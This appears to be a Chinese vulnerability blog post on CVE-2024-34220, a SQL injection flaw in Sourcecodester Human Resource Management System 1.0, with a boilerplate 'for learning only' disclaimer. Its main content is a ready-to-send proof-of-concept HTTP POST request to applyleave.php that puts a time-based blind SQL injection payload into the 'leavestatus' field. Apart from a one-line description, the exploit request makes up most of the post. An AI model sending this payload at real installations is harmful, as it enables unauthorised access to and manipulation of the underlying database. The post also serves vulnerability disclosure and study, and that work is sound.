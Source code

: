 #  CVE-2024-34220   
A___bandon  漏洞猎人   2024-05-18 08:02  
  
<table><tbody style="outline: 0px;visibility: visible;"><tr style="outline: 0px;visibility: visible;"><td width="557" valign="top" height="184" style="padding: 0px;outline: 0px;word-break: break-all;hyphens: auto;visibility: visible;"><p style="outline: 0px;visibility: visible;"><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;text-decoration-style: solid;text-decoration-color: rgb(51, 51, 51);visibility: visible;"><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">免</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">责</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">声</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">明</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">：</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">所</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">涉</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">及</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">信</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">息</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">安</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">全</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">技</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">术</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">知</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">识</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">仅</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">供</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">参</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">考</span></span></strong><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;letter-spacing: 0.578px;text-decoration: line-through;visibility: visible;"></span></span></strong><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;text-decoration-style: solid;text-decoration-color: rgb(51, 51, 51);visibility: visible;"><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">和</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">学</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">习</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">之</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">并</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">不</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">构</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">成</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">明</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">示</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">或</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">暗</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">示</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">保</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">证</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">读</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">在</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">使</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">提</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">供</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">信</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">息</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">时</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">应</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">自</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">行</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">判</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">断</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">其</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">适</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">性</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">并</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">承</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">担</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">由</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">此</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">产</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">生</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">一</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">切</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">风</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">险</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">和</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">责</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">作</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">对</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">于</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">读</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">基</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">于</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">内</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">容</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">所</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">做</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">出</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">行</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">为</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">或</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">决</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">定</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">不</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">承</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">担</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">责</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">在</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">情</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">况</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">下</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">作</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">不</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">对</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">因</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">使</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">内</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">容</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">而</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">导</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">致</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">的</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">直</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">接</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">、</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">间</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">接</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">、</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">特</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">殊</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">或</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">后</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">果</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">性</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">损</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">失</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">承</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">担</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">责</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">读</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">者</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">在</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">使</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">用</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">本</span></span></strong><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;text-decoration-style: solid;text-decoration-color: rgb(51, 51, 51);visibility: visible;"></span></strong><strong style="outline: 0px;font-size: 14px;letter-spacing: 0.578px;visibility: visible;"><span style="outline: 0px;font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;orphans: 4;white-space-collapse: preserve;color: rgb(255, 0, 0);letter-spacing: 0.578px;text-decoration-style: solid;text-decoration-color: rgb(51, 51, 51);visibility: visible;"><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">文</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">内</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">容</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">时</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">应</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">当</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">遵</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">守</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">当</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">地</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">法</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">律</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">法</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">规</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">，</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">并</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">保</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">证</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">不</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">违</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">反</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">任</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">何</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">相</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">关</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">法</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">律</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">法</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">规</span><span style="outline: 0px;display: inline-block;text-indent: initial;visibility: visible;">。</span></span></strong></p></td></tr></tbody></table>  
  
  
  
影响描述  
  
    人力资源管理系统1.0易受通过“leave”参数进行SQL注入的攻击。Sourcecodester Human Resource Management System 1.0 is vulnerable to SQL Injection via the 'leave' parameter.  
  
  
poc&exp  
  
```
POST /hrm/user/applyleave.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 149
Origin: http://localhost
Connection: close
Referer: http://localhost/hrm/user/applyleave.php
Cookie: PHPSESSID=2v2v2al4dkd4iir9cl5j7oikvr
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: cyan

leavestatus=5'+AND+(SELECT+1337+FROM+(SELECT(SLEEP(5)))VSgR)+AND+'Kha'%3d'123&reason=+++&startdate=03%2F04%2F2024&enddate=29%2F04%2F2024&Apply=Submit
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9eVcaiaJyjJUH41ow46vKhge3WzNajaArNT83xSnTuhw1XLjkeYIuIQ8041dMaD2IsPFhtVfNNYia3bQWbxxuVbA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9eVcaiaJyjJUOEwrn5mxZfzvtcYYJHLln6dn52navt1pvhYhz6CiaDJxuaOXThdonCBNTpvQHibrhdBxT72wFj0gg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
